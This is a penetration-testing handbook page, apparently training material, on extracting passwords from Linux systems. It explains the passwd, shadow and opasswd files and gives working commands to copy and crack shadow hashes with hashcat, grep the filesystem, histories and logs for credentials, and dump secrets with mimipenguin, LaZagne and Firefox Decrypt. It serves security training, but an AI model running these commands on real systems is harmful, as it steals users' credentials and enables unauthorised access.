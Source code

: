 ```yaml
---
title: "Extracting Passwords from Linux Systems"
type: handbook
weight: 4
---
```


## Linux Authentication Process

### Passwd file

The `/etc/passwd` file contains information about every user on the system and is readable by all users and services. 

```bash
htb-student:x:1000:1000:,,,:/home/htb-student:/bin/bash
```

| Field            | Value            |
|------------------|------------------|
| Username         | htb-student      |
| Password         | x                |
| User ID          | 1000             |
| Group ID         | 1000             |
| GECOS            | ,,,              |
| Home directory   | /home/htb-student|
| Default shell    | /bin/bash        |

Usually, we will find the value `x` in the password field, indicating that the passwords are stored in a hashed form within the /etc/shadow file. However, it can also be that the `/etc/passwd` file is writeable by mistake. This would allow us to remove the password field for the root user entirely.

```bash
head -n 1 /etc/passwd

root::0:0:root:/root:/bin/bash
```

### Shadow file

Since reading password hash values can put the entire system at risk, the `/etc/shadow` file was introduced. It has a similar format to `/etc/passwd` but is solely responsible for password storage and management.

```bash
htb-student:$y$j9T$3QSBB6CbHEu...SNIP...f8Ms:18955:0:99999:7:::
```

| Field            | Value                                   |
|------------------|-----------------------------------------|
| Username         | htb-student                             |
| Password         | $y$j9T$3QSBB6CbHEu...SNIP...f8Ms        |
| Last change      | 18955                                   |
| Min age          | 0                                       |
| Max age          | 99999                                   |
| Warning period   | 7                                       |
| Inactivity period| -                                       |
| Expiration date  | -                                       |
| Reserved field   | -                                       |

### Opasswd

The PAM library (`pam_unix.so`) can prevent users from reusing old passwords. These previous passwords are stored in the `/etc/security/opasswd` file. Administrator (root) privileges are required to read this file, assuming its permissions have not been modified manually.

```bash
sudo cat /etc/security/opasswd

cry0l1t3:1000:2:$1$HjFAfYTG$qNDkF0zJ3v8ylCOrKB0kt0,$1$kcUjWZJX$E9uMSmiQeRh4pAAgzuvkq1
```

### Cracking Linux Credentials

```bash
sudo cp /etc/passwd /tmp/passwd.bak
sudo cp /etc/shadow /tmp/shadow.bak
unshadow /tmp/passwd.bak /tmp/shadow.bak > /tmp/unshadowed.hashes
```

```bash
hashcat -m 1800 -a 0 /tmp/unshadowed.hashes rockyou.txt -o /tmp/unshadowed.cracked
```

## Credential Hunting

### Files

#### Searching for configuration files

```bash
for l in $(echo ".conf .config .cnf");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "lib\|fonts\|share\|core" ;done
```

```bash
for i in $(find / -name *.cnf 2>/dev/null | grep -v "doc\|lib");do echo -e "\nFile: " $i; grep "user\|password\|pass" $i 2>/dev/null | grep -v "\#";done
```

#### Searching for databases

```bash
for l in $(echo ".sql .db .*db .db*");do echo -e "\nDB File extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share\|man";done
```

#### Searching for notes

```bash
find /home/* -type f -name "*.txt" -o ! -name "*.*"
```

#### Searching for scripts

```bash
for l in $(echo ".py .pyc .pl .go .jar .c .sh");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share";done
```

#### Enumerating cronjobs

```bash
cat /etc/crontab 
```

#### Enumerating history files

```bash
tail -n5 /home/*/.bash*
```

#### Enumerating log files

| File               | Description                               |
|--------------------|-------------------------------------------|
| /var/log/messages  | Generic system activity logs.             |
| /var/log/syslog    | Generic system activity logs.             |
| /var/log/auth.log  | (Debian) All authentication related logs. |
| /var/log/secure    | (RedHat/CentOS) All authentication related logs. |
| /var/log/boot.log  | Booting information.                      |
| /var/log/dmesg     | Hardware and drivers related information and logs. |
| /var/log/kern.log  | Kernel related warnings, errors and logs. |
| /var/log/faillog   | Failed login attempts.                    |
| /var/log/cron      | Information related to cron jobs.         |
| /var/log/mail.log  | All mail server related logs.             |
| /var/log/httpd     | All Apache related logs.                  |
| /var/log/mysqld.log| All MySQL server related logs.            |

```bash
for i in $(ls /var/log/* 2>/dev/null);do GREP=$(grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null); if [[ $GREP ]];then echo -e "\n#### Log file: " $i; grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null;fi;done
```

### Memory and cache

#### Mimipenguin

Many applications and processes work with credentials needed for authentication and store them either in memory or in files so that they can be reused. For example, it may be the system-required credentials for the logged-in users. Another example is the credentials stored in the browsers, which can also be read. In order to retrieve this type of information from Linux distributions, there is a tool called [mimipenguin](https://github.com/huntergregal/mimipenguin) that makes the whole process easier.

```bash
sudo python3 mimipenguin.py
```

#### LaZagne

```bash
sudo python2.7 laZagne.py all
```

#### Browser credentials

```bash
ls -l .mozilla/firefox/ | grep default
```

```bash
cat .mozilla/firefox/1bplpd86.default-release/logins.json | jq .
```

The tool [Firefox Decrypt](https://github.com/unode/firefox_decrypt) is excellent for decrypting these credentials, and is updated regularly. It requires Python 3.9 to run the latest version. Otherwise, `Firefox Decrypt 0.7.0` with Python 2 must be used.

```bash
python3.9 firefox_decrypt.py
```

```bash
python3 laZagne.py browsers
```

